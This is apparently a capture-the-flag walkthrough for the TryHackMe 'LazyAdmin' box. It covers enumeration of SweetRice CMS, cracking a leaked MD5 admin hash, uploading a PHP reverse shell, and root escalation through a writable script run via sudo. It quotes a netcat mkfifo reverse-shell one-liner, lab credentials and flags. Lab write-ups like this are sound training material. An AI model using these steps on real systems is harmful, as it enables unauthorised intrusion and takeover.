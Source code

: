 # LazyAdmin
starting off with a quick nmap of the box to get a lay of the land

```
nmap -sV -sC 10.10.31.197 -oN nmap.txt
```
nmap show that the following ports are open 

- 22 - OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
- 80 - Apache httpd 2.4.18

Next I kick off gobusters with the common web content list from seclists

```
gobuster -u 10.10.31.197 -w ~/tools/SecLists/Discovery/Web-Content/common.txt
```
![](screenshots/gobuster.png)

Checking out the /content directory on the webserver we are greated with a site that is running SweetRice CMS

![](screenshots/sweetrice.png)

I kick off another gobuster scan this time of the /content directory and get the following results

![](screenshots/gobuster_content.png)

while that was running I did some searching for sweetrice cms and see a slew of exploits on exploitdb

![](screenshots/exploitdb.png)

going back to my gobuster results a few things jump out at me the /attachments dir, the /as dir and the /inc dir
- /attachments dir yeilded an empty directory. 
- /as gives me a login page (bingo found the admin portal)
- /inc dir how ever gives me a nice list of things to explore.

![](screenshots/content_inc.png)

looking at latest.txt gives me a version number

```
1.5.1
```

We also see a folder called mysql_backup lets check that out while we are here
inside of there we see and sql command file
```
mysql_bakup_20191129023059-1.5.1.sql	
```
Lets downlaod that and store it in our working dir for this box just in case it is useful later on

Perfect now we can start looking at exploits for 1.5.1 to see which may get us access to the sever.

Looking at the code forthe Arbitary file upload it looks like we need a username and password which we currently don't have. Lets take a look at the sqlbackup to see if it has any credentails in it we can use.
From the sql back up we can see a possilbe username of manager
we also have a hashed version of the password (appears to be md5)
```
42f749ade7f9e195bf475f37a44cafcb
```
Doing a search for the hash on crackstation.net reveals the password matching this hash

![](screenshots/crackstation.png)

Using the username and passwrod we uncovers we gain access to the admin portal

![](screenshots/adminportal.png)

Grabbing a copy of the file upload exploit from exploit db we see we need the following to make this work

- host to attack (ip of website)
- username
- password
- file to upload (our rev shell in php as that is what the cms runs on)

I get a copy of the php rev shell from pentest monkeys github

```
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

now to edit the shell php to point to our machine so we can get the revshell

now we can run the exploit python script to upload our shell

![](screenshots/exploitpy.png)

The exploit script did not work for me it just exits and doesn't upload my payload or give me any out put even though by looking at the exploit code it should.

By reading and understanding what the code is attempting do to it is trivial for us to do this on our own. a few points to remember

- by looking at the example the exploit code give we can not use a regular php file (uploading it is rejected) we have to use .php5 extension
- the exploit script uploads your file to the media center section of the admin portal so we should be able to do that manually

![](screenshots/mediacenter.png)

from the media center we successfully uploaded our revshell now to run it we know from the exploit code that the files are uploaded to the attchemnt dir under the /content dir so if we navigate to 
```
IPADDRESS/content/attachment
```
we see our shell is there

![](screenshots/attachment_with_shell.png)

if we click on that while our netcat listener is running we get our shell
alternatively we can just visit the path directly

```
IPADDRESS/content/attachment/shell.php5
```

The browsewr will appear to hang but if you look at your netcat listen you see you have gained access

doing an quick whoami reveals we are running as www-data

if we do an ls of the /home directory we see one users directory itguy

![](screenshots/ls_home.png)

doing an ls of the itguy directory we get a list of files 

![](screenshots/ls_itguy.png)

if we cat the user.txt file we get our first flag

```
THM{63e5bce9271952aad1113b6f1ac28a07}
```
lets take a look at a few of the other files he has in his directory incase there is anything useful

the mysql_login.txt reveals the following 

```
rice:randompass
```

the backup.pl script gives us

```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
This is interesting.

/etc/copy.sh
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

checking the permssions of copy.sh we see 
![](screenshots/copysh_perm.png)

the user owner can read and write to the file the group cant r and pulic can read write and execute meaning we can change this and run it could be useful
runing copy.sh directly does us no good since it runs as www-data 
we need to see if we can run anything as sudo with this account

```
sudo -l
```
![](screenshots/sudol.png)

we can run the itguys backup.pl script as root with no password, perfect! 
it calls the copy.sh script so lets change it to give us root when ran.

we need to change the copy.sh file that the backup.pl script calls so we get a shell when it is called
since vi is not on this system we can easily do this with the following command
```
echo "sh" > /etc/copy.sh
```
this will overwirte the copy.sh to call sh when ran. Now we need to run the backup.pl script to get our shell

Trying to run
```
sudo /home/itguy/backup.pl
```

we get an error 

![](screenshots/notty.png)

this is for 2 reasons one our shell is not fully interactive. and if it was we would be prompted to enter the password for www-data

in order for this to work we have to use perl to call the backup.pl script
just doing sudo perl or sudo /home/itguy/backup.pl will not work 
it will just give us the same error as above since the www-data user can only run
those two commands together with out a password.

*the reason we have to do them together is because there is not comma (,) seperating the commands ins the sudoers file this means they have to be ran together if we had a comma we could just run one or the other as root with no password*

So now that we understand that a little better lets get root!

```
sudo perl /home/itguy/backup.pl
```
![](screenshots/root.png)

we can now get our root flag
```
cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```